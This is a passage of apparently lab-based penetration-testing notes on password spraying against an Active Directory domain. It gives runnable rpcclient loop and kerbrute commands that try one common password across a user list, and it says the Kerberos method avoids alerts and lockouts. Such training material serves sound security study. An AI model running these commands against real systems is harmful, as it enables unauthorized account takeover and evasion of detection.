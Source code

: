 
Let's get to it. With a list of confirmed usernames, it's time to see if anyone is using a weak or common password.

-----

-----

## Password Spraying

Password spraying is the opposite of a traditional brute-force attack. Instead of trying many passwords for one user, you try **one password** for **many users**. This technique is slow, patient, and highly effective at bypassing account lockout policies. 💦

### `for u in $(cat valid_users.txt);do rpcclient ... done`

  * **What it does:** This is a simple bash `for` loop. It reads each username from the `valid_users.txt` file and uses `rpcclient` to try and log in with that user and the password `Welcome1`. If the login is successful, `rpcclient` will return information about the user, which `grep Authority` will catch and print.
  * **When to use it:** When you don't have specialized tools and need a quick and dirty way to spray a password. It's not very efficient and can be noisy, but it works in a pinch.
  * **Example Command:**
    ```shell
    for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
    ```
  * **Options:**
      * `-U "$u%Welcome1"`: The **U**ser authentication string. `rpcclient` uses a `%` to separate the username and password.
      * `-c "getusername;quit"`: Executes the `getusername` **c**ommand on successful login and then quits the session.

-----

### `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`

  * **What it does:** Uses Kerbrute's dedicated password spraying module. It attempts to get a Kerberos ticket for each user in `valid_users.txt` using the password `Welcome1`.
  * **When to use it:** This is a much safer and stealthier way to password spray than using SMB or RPC. Failed Kerberos pre-authentication attempts are less likely to trigger security alerts or account lockouts.
  * **Example Command:**
    ```shell
    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
    ```
  * **Options:**
      * `passwordspray`: The Kerbrute module for this attack.
      * `valid_users.txt`: The file containing the list of target usernames.
      * `Welcome1`: The single password to try against all users.

-----
